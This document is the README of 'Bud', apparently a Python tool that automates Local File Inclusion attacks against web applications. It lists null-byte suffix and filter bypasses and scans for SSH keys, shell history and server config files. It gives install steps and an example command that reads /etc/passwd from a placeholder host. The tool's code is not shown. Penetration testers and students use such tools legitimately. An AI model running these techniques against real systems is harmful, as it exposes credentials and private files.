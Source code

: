 # Bud :D
This script automatically extracts user / system files trough Local File Inclusion.

# Current features:
* inject anywhere (parameter + path) (use the * to set the injection point)
* checks absolute path and relative path method
* supports suffix bypass by using a null-byte
* supports filter bypass by using a null-byte + fake extension
* scans for readable configuration files (Apache, MySQL, Nginx, SSHd and DHCPclient)
* scans for readable user files (.ssh files, user profile, bashrc, history file)
* scans for possible log injection (Apache + Nginx)
* gathers some basic system info
* supports all 7392 genders and Python 2.x & 3.x

# How to install
* git clone https://github.com/stefan2200/Bud.git bud
* cd bud
* pip install -r requirements.txt
* python bud.py -hh

# How to use
```
an actual results file here. git markup does not like all those hashtags :)
*python bud.py -u "http://vulie.local/image.php?mime=jpg&src=&ast;" -e jpg -i*
-u: the url to start with, needs mime set to extension to actually call the vuln function
also both mime and extension must be a valid image format
-e jpg to append a null-byte followed by the fake extension
back-end sees: /etc/passwd\0.jpg
server sees: /etc/passwd
```
*Output of this command is available in results.txt*
```
Usage: bud.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL                The URL to start with including an astrix (&ast;) for the
                        inject point
  -n, --null-byte       Use a null-byte to bypass suffix
  -e ERROR_TEXT, --error=ERROR_TEXT
                        Text to look for when a file is not found, default:
                        auto detect
  -p, --print           Text to look for when a file is not found, default:
                        auto detect
  -i, --ignore          Do not print files that are not found
  -f FAKE_EXTENSION, --fake-ext=FAKE_EXTENSION
                        Use null-byte followed by this fake extension (enables
                        -n)
```